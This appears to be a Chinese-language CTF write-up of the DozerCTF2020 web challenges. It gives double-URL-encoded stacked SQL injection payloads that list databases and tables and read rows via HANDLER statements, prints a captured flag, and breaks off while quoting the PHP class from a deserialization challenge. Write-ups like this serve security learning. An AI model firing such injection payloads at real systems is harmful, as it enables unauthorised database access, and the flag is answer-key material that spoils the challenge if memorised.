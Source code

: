 ```yaml
---
title: DozerCTF2020_web
date: 2020-06-15
image: 
description: 金陵科技学院主办的CTF比赛
categories: 
- ctf_writeup
tags:
- XXE
- SQLi
---
```

又是一场把萌新骗过去杀的比赛，弹计算器好玩，域渗透不会，xxe盲打ssrf学到了

------

### sqli-labs 0

考点：URL二次编码，堆叠注入

堆叠其实很简单，也发现什么过滤，主要是二次编码有点坑。。。

查看库名：

```
?id=1%2527;show%20databases;%23 
```

查看表名：

 

```
?id=1%2527;show%20tables;%23
```

查看表的第一条数据：

 

```
?id=1%2527;handler%20uziuzi%20open;handler%20uziuzi%20read%20first;%23 
```

flag{594cb6af684ad354b4a59ac496473990}

 

 

 

 

### 白给的反序列化

考点：PHP反序列化

开题送码：

```
<?php

class home
{
    private $method;
    private $args;
    function __construct($method, $args)
    {
        $this->method = $method;
        $this->args = $args;
    }

    function __destruct()
```